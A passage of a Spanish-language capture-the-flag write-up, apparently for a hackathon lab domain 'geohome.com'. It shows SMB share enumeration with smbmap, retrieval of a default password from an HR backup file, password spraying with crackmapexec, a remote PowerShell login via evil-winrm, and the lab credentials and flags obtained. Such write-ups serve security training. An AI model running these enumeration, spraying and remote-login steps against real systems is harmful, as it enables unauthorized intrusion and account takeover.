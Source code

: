 Y obtenemos unos nuevos credenciales válidos:
>mcoronado:The3rdQinDinastyThermOs?

Y analizando los accesos con los que este usuario cuenta:
```
(base) ┌──(kali㉿kali)-[~/Desktop/Hackathon]
└─$ smbmap -H geohome.com -u mcoronado -p The3rdQinDinastyThermOs?                                                                                                  130 ⨯
[+] IP: geohome.com:445 Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        CustomerService-SHARE                                   NO ACCESS
        Finances-SHARE                                          NO ACCESS
        HR-SHARE                                                READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        IT-SHARE                                                NO ACCESS
        NETLOGON                                                READ ONLY       Logon server share
        Research-SHARE                                          NO ACCESS
        SYSVOL                                                  READ ONLY       Logon server share

```
Con este usuario podemos entrar en `HR-SHARE/BACKUP/DELETEME`
```
smbmap -H geohome.com -u mcoronado -p The3rdQinDinastyThermOs? --download HR-SHARE/BACKUP/DELETEME.txt
```
el contenido de dicho fichero es:
```text
Por defecto todos los usuarios se crean con una contrase�a predeterminada: g3oh0m3!us4ar!0. Asegurarse de que todos los empleados cambien la contrase�a.
```
>Password por defecto: g3oh0m3!us4ar!0

Volvemos a probar con crackmapexec a ver a quién pertenece esta contraseña:
`crackmapexec smb geohome.com -u users_rpc -p "g3oh0m3\!us4ar\!0"`
![Image](Pasted%20image%2020220521194750.png?raw=true)
>enriques:g3oh0m3!us4ar!0

g3oh0m3!us4ar!0"

Con este nuevo usuario intentamos logearnos con `evil-winrm`
`evil-winrm -i geohome.com -u jenriques -p g3oh0m3\!us4ar\!0`
Y voilá, tenemos una sesión en Powershell:
![Image](Pasted%20image%2020220521200332.png?raw=true)

Y accediendo a su carpeta Desktop obtenemos la siguiente flag.
>FLAG{Buen_Password_Spraying_Eh?}

## FLAG 5 - FLAG{SSRF_PARA_TOD@S_XD}
Revisando en el directorio `C:\inetpub\`hemos encontrado revisando algunos ficheros la siguiente flag, creo que no era el método esperado para dar con ella:
![Image](Pasted%20image%2020220521213015.png?raw=true)

